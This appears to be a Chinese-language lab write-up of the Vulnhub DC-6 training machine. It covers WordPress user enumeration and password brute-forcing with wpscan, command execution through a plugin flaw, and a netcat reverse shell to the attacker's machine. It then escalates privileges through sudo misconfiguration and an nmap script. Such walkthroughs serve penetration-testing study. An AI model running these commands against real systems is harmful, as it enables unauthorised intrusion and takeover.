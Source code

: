 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s/6x\_xSa2hGG2dp5QcmxdjVw)

说明：Vulnhub 是一个渗透测试实战网站，提供了许多带有漏洞的渗透测试靶机下载。适合初学者学习，实践。DC-6 全程只有一个 falg，获取 root 权限，以下内容是自身复现的过程，总结记录下来，如有不足请多多指教。

下载地址：

Download: http://www.five86.com/downloads/DC-6.zip

Download (Mirror): https://download.vulnhub.com/dc/DC-6.zip

Download (Torrent): https://download.vulnhub.com/dc/DC-6.zip.torrent  

目标机 IP 地址：192.168.5.141  
攻击机 kali IP 地址：192.168.5.135

arp-scan -l

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24PPTIFYpt87nJkyJSqMuASSicqoFcRyJEe34mvO39G0DCoMiceEMVVHt06pIpr1UUjvtVb3H7iap8tQ/640?wx_fmt=png)

nmap -sV -p- -A 192.168.5.141

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24PPTIFYpt87nJkyJSqMuASpjG9KebqX1dAhe7BWN8zqJibpNGT7VyHp4zNbkJ2sCuHicAicCAL3xCNA/640?wx_fmt=png)

访问 web 服务重定向到 http://wordy/ 修改 host 文件，该站点为 WordPress，kali 中自带工具（wpscan）专门扫 WordPress。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24PPTIFYpt87nJkyJSqMuASyewm6uzaxcEJnicb9vd8icNicuTzLKZYPK8IBS0OGN6cU4Ul0bQoF86lQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24PPTIFYpt87nJkyJSqMuASRsXT3FVrdS1SGRm5BqHPyyXVn3rmicI3Eqg1gicSiaI2fJRdOYcdh7ticA/640?wx_fmt=png)

扫描一下：  

wpscan --url http://wordy/ -e u

存在多个用户 admin/graham/mark/sarah/jens

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24PPTIFYpt87nJkyJSqMuASaeD7zT2LonD8ibicBKQiaLnHZ19nqUc7uiaIt630w9LxFJ4YDorUSEicNUw/640?wx_fmt=png)

该作者是有提示的。  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa25Zx6sHyzjJgWbicA6nnEwRsfsTzgY63XBkVeCa39Or6tSz5TedrZakictMxRNMMPLMf7iaTYkkzRDDg/640?wx_fmt=png)

字典较大，爆破需要很长的时间要有耐心，解压字典后使用 wpscan 进行爆破。

```
gunzip -c rockyou.txt.gz > rockyou.txt
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24PPTIFYpt87nJkyJSqMuASeLUO9RF6Pd7LmibQce6rrjnWG0EBugfzeINJSGhicnpb6A1ic5uvCI2zw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24PPTIFYpt87nJkyJSqMuASbnAPRXKzX4YjcJqso1mOHIssmRmSEqe0W5ry9TDA02YEDvgZ7qFibBQ/640?wx_fmt=png)

```
wpscan --url http://wordy/  -P /usr/share/wordlists/rockyou.txt  -U DCusernames
```

爆破出用户是 mark，密码是 helpdesk01，WordPress 后台登录。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa25Zx6sHyzjJgWbicA6nnEwRsaj3sAOfhVYyJNOftMoIk60q0cBE8UPBAP7aBGxib6urNygggMIGAgMw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa25Zx6sHyzjJgWbicA6nnEwRs2BBELjX33lal6zARHgGJCic0icPfevZ9WRjo9MWMK64ArvIJ4mTVfVDQ/640?wx_fmt=png)

发现后台页面中安装了 Activity monitor,WordPress Activity monitor 插件存在命令执行的漏洞。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24PPTIFYpt87nJkyJSqMuASO2lSx65a87WcQibfgLREcveUFZZ7J9WYxDA9cmEZkia5y9O9kpEicuedA/640?wx_fmt=png)

执行命令。  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24PPTIFYpt87nJkyJSqMuASw9qicCWbwgiceGPCxgBsjTcYRczB8ibrMpIsw3Jh0h09cjU0DQQ7VmaKA/640?wx_fmt=png)

反弹 shell，切换交互模式。

```
nc 192.168.5.135 7777 -e /bin/bash
python -c 'import pty;pty.spawn("/bin/bash")'
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24PPTIFYpt87nJkyJSqMuASVklSFfc8AN6KbJRdVicK83IVbFQc4Or7gllR1RvIibibiauClMM2QEV5JA/640?wx_fmt=png)

到 home 目录下看看。

www-data@dc-6:/home/mark/stuff$ cat things-to-do.txt

发现新用户的以及密码 graham/GSo7isUM1D4

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24PPTIFYpt87nJkyJSqMuAS34YBs9TrzibSDD6z7lEPIZGLNtOicJeZytcu5ppzxJx3A4Vx9ots5Liaw/640?wx_fmt=png)

graham 使用 ssh 链接一下。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24PPTIFYpt87nJkyJSqMuASylWZUQjLGauNdPt6UMDYFgfOon2WIuussbsTLRibOic0GtkuGicA9pLGw/640?wx_fmt=png)

sudo -l 查看一下能够执行 root 权限的命令。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24PPTIFYpt87nJkyJSqMuASzkmGR4IAUNEtahKbpgEz6nqrlfDEiazzQkuoxvSlnqCc4RfL9x473mg/640?wx_fmt=png)

sudo -u 以指定的用户作为新的身份（不指定则为 root 权限）。 修改该脚本：echo "/bin/bash" > backups.sh  切换用户 jens。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24PPTIFYpt87nJkyJSqMuAS5ZWjVRsxscnmxicicQR7NJdiakzNbcAoGB08521pMviaKEHDucd6QWKiaJA/640?wx_fmt=png)

发现 nmap 可以以 root 权限执行。写一个 nmap 脚本，利用 nmap 提权。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24PPTIFYpt87nJkyJSqMuASXC0hdBUP8iaJGwWCCvno6VfOWeLtzT8aqDbibEyagiaGkOyFvtVbA9ysg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa25Zx6sHyzjJgWbicA6nnEwRsVb0k2F1vpAYeMXoVPeW2TodK4WxoSgTgAOiasEylo0KDZ484orTxC9g/640?wx_fmt=png)

nmap 提权成功，拿到 flag。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24PPTIFYpt87nJkyJSqMuASVSjCxn3kgc4N1Bn51mic81aTaasSiaMpBWSY74enOVvKlS5WVOhrSUBg/640?wx_fmt=png)